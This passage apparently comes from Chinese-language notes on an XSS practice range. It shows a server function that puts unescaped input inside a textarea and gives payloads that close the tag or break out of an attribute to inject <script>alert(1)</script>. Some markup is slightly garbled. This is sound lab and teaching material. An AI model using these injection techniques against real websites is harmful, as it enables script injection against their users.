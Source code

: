![image-20220115230657881](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/02%20XSS%E9%9D%B6%E5%9C%BA.assets/image-20220115230657881.png)

```
[html]
<extarea></textarea><script>alert(1)</script><textarea></textarea>

[server code]
function render (input) {
  return '<textarea>' + input + '</textarea>'
}
```



## 0x02——提前闭合`">`

```
"><script>alert(1)</script><"
```

```
<input type="name" value="fdfdfdfd "><script>alert(1)</script><img      ">
```
